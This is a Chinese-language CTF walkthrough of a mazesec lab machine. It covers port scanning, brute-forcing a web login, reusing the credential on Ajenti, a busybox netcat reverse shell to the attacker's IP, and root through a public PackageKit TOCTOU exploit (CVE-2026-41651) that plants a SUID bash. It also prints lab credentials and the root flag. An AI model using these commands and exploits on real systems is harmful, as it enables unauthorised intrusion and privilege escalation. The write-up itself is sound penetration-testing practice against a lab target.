| 作者     | 难度 | 平台    |
| -------- | ---- | ------- |
| ll104567 | baby | mazesec |

## 信息收集

```
╭─ ~ ───────────────────────────────────────────────────────────────── ✔  root@kali  08:18:51 
╰─ nmap 192.168.56.123 -p-
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-29 08:19 -0400
Nmap scan report for 192.168.56.123
Host is up (0.00059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
MAC Address: 08:00:27:32:60:79 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 43.16 seconds

╭─ ~ ─────────────────────────────────────────────────────────── ✔  43s  root@kali  08:19:48 
╰─ nmap 192.168.56.123 -p 22,80,8000 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-29 08:20 -0400
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 08:20 (0:00:12 remaining)
Nmap scan report for 192.168.56.123
Host is up (0.0013s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http          Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Inspirational Quote
8000/tcp open  ssl/http-alt?
| ssl-cert: Subject: commonName=ajenti/organizationName=moban/countryName=NA
| Not valid before: 2026-04-19T11:49:37
|_Not valid after:  2036-04-16T11:49:37
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:32:60:79 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.59 seconds
```

`80` 端口的标题：`励志名言`；`8000` 端口的需要`https://`访问。访问 80 端口：


一句名言 加 名字，记录下这个名字：`jiali`。`dirsearch` 扫描：

```sh
╭─ ~ ──────────────────────────────────────────────────────── ✔  1m 56s  root@kali  08:22:26 
╰─ dirsearch -u http://192.168.56.123/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_192.168.56.123/__26-05-29_08-28-27.txt

Target: http://192.168.56.123/

...
[08:28:29] 403 -  279B  - /.httr-oauth
[08:28:31] 403 -  279B  - /.php
[08:29:05] 200 -  621B  - /login.php
[08:29:20] 403 -  279B  - /server-status
[08:29:20] 403 -  279B  - /server-status/
...
```

存在 `login.php`，访问是一个登录界面，爆破`admin`用户，`5000.txt`，没有爆破出来；换`jiali`用户，`5000.txt`爆破出密码为：`qweasdzxc`。



登录成功后，并没有任何跳转，猜测功能可能就是这样的吧；我们获取了一个凭证：`jiali:qweasdzxc`。

访问`8000`端口：



打开控制台可以搜索到这些信息：



版本号为：`2.2.15`，搜索官网发现：最新版本号是`2.2.15`。



最新的`CVE`漏洞受影响的版本小于`2.2.15`，所以目前我认为是没有`CVE`漏洞可以利用。

这里复用凭证，可以登录`ajenti`：



这里我是创建了一个新的 `Terminal`。

## 反向shell获取完整交互式shell

```sh
# kali
nc -lvnp 39666
# 靶机
busybox nc 192.168.56.101 39666 -e /bin/bash &
# 反向shell放到后台执行，不容易断
╭─ ~ ──────────────────────────────────────────────────────── ✔  1m 10s  root@kali  08:29:36 
╰─ nc -lvnp 39666
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.123] 52292
id
uid=1000(jiali) gid=1000(jiali) groups=1000(jiali)
script -qc /bin/bash /dev/null
jiali@Ace:/$ ^Z
[1]  + 38776 suspended  nc -lvnp 39666

╭─ ~ ─────────────────────────────────────────────── TSTP ✘  2m 51s    root@kali  09:22:06 
╰─ stty raw -echo;fg
[1]  + 38776 continued  nc -lvnp 39666
                                      reset
]Rjiali@Ace:/$ export SHELL="/bin/bash"
jiali@Ace:/$ export TERM="xterm-256color"
jiali@Ace:/$ export HOME="/home/jiali"
jiali@Ace:/$ cd
jiali@Ace:~$ source .bashrc
```

## 系统内部信息收集

`sudo -l`：列举当前用户可以执行的sudo命令，发现并没有，检查具有`suid`位的文件，发现：

```sh
jiali@Ace:~$ find / -perm -u=s -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47184 Apr  6  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Apr  6  2024 /usr/bin/su
-rwsr-xr-x 1 root root 34888 Apr  6  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 23448 Jan 13  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-- 1 root messagebus 51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 481608 Dec 21  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 19040 Jan 13  2022 /usr/libexec/polkit-agent-helper-1
```

注意到`pkexec`，在`gtfobins`搜索：



发现无法利用。

```sh
jiali@Ace:/var/tmp$ ss -tuln
Netid        State         Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       
udp          UNCONN        0             0                          0.0.0.0:68                      0.0.0.0:*          
tcp          LISTEN        0             128                        0.0.0.0:22                      0.0.0.0:*          
tcp          LISTEN        0             10                         0.0.0.0:8000                    0.0.0.0:*          
tcp          LISTEN        0             128                              *:80                            *:*          
tcp          LISTEN        0             128                           [::]:22                         [::]:*  
```

没有隐藏的内网地址，查看进程`ps auxww`，没有发现任何有关提权的信息，通过`./pspy64`，也没有发现有关定时任务的可利用信息。

上传`linpeas.sh`，`bash linpeas.sh` 发现 `CVE-2026-41651`。



我发现了一个好网站：可以搜索有关`CVE`公开漏洞的payload；在该网站下载payload：https://github.com/baph00met/CVE-2026-41651/blob/main/cve-2026-41651-purpleteam.py。

## 权限提升

```sh
jiali@Ace:~$ python3 cve-2026-41651-purpleteam.py 
============================================================
  CVE-2026-41651 — PackageKit TOCTOU LPE
  Purple Team Test Case | Authorized Use Only
============================================================

[+] SUID drop directory: /var/tmp  (no nosuid/noexec)
[+] Package format: DEB
[*] Building test packages...
[+] Dummy pkg:   /tmp/pk-dummy-662.deb
[+] Payload pkg: /tmp/pk-payload-662.deb
[+] Payload installs SUID bash to: /var/tmp/.suid_bash

[*] Connecting to system D-Bus...
[*] Creating PackageKit transaction...
[+] Transaction ID: /22_dbbaeeab

[*] Firing TOCTOU race (SIMULATE → REAL on same transaction)...
[*] Polling for SUID at /var/tmp/.suid_bash (90s max)...

[+] Confirmed: /var/tmp/.suid_bash is SUID root (mode=0o104755)

[+] Dropping to root shell via SUID bash (-p preserves effective UID=0)
[+] --- ROOT SHELL FOLLOWS ---

.suid_bash-5.0# id
uid=1000(jiali) gid=1000(jiali) euid=0(root) groups=1000(jiali)
.suid_bash-5.0# cd /root
.suid_bash-5.0# cat root.txt
flag{root-2d80a0695beb907d6b9ae94a5b97c038}
.suid_bash-5.0# cat rootpass.txt
hDLHiKiviqDf5CU55m8D
```

## 预期方法

```
jiali@Ace:/var/www$ ls -al
total 16
drwxr-xr-x  3 root     root     4096 Apr 19 09:49 .
drwxr-xr-x 12 root     root     4096 Apr  1  2025 ..
-rw-------  1 www-data www-data   26 Apr 19 09:49 ...
drwxr-xr-x  3 www-data www-data 4096 Apr 19 09:56 html
```

我们可以看到在`/var/www`目录下存在`...`隐藏文件，但它是www-data权限的，利用方法：



利用蚁剑连接：



就可以获取到root的凭证了。

## 总结

学习韭菜叶片的一些思路：



我是真的没想到：还可以这样查看最新的漏洞，快速定位。



对于登录框的黑盒测试，我的方法还是太少了。
